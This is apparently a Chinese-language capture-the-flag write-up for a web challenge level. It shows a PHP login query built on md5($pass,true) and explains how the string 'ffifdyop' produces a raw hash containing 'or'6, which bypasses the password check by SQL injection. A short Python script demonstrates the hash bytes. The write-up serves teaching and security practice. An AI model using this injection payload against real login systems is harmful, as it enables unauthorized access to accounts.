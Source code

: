 ![image-20210811221230795](image-20210811221230795.png "网站页面")

### level1

首先随便输入，抓包得到hint提示

![image-20210811221151702](image-20210811221151702.png "hint提示")

可以看到提交请求对应的语句为

```php
select * from 'admin' where password=md5($pass,true)
```

这里要注入的话就得使`md5($pass, true)`值为`' or 'xxx`，也就是要找个字符串使其md5结果满足这一要求。遍历可以爆出结果，但其实有经验的话就知道`"ffifdyop"`满足上述需求，是[md5注入时常用的字符串](https://www.cnblogs.com/tqing/p/11852990.html)，其md5结果为`' or '6xxxxx`。

```python
import hashlib
s = "ffifdyop"
m = hashlib.md5(s.encode()).hexdigest()
print(m)

plain = bytes.fromhex(m)
print(plain)

=================

276f722736c95d99e921722cf9ed621c
b"'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c"
```
